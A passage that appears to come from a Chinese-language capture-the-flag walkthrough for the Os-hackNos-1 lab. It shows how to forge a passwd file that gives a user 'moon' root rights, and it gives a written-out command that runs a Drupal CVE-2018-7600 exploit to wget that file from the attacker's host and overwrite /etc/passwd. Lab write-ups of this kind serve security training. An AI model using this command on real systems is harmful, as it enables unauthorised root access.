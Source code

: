 ```
```

复制到本地生成文件passwd

在kali中生成密码

![image-20230628232349133](Os-hackNos-1.assets\image-20230628232349133.png)

将moon加入到伪造的passwd，并赋予root权限

![image-20230628232408828](Os-hackNos-1.assets\image-20230628232408828.png)

将passwd放到开启了python  httpserver的文件夹中

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/passwd -O /etc/passwd"  
```

或者直接在已有的shell中进行
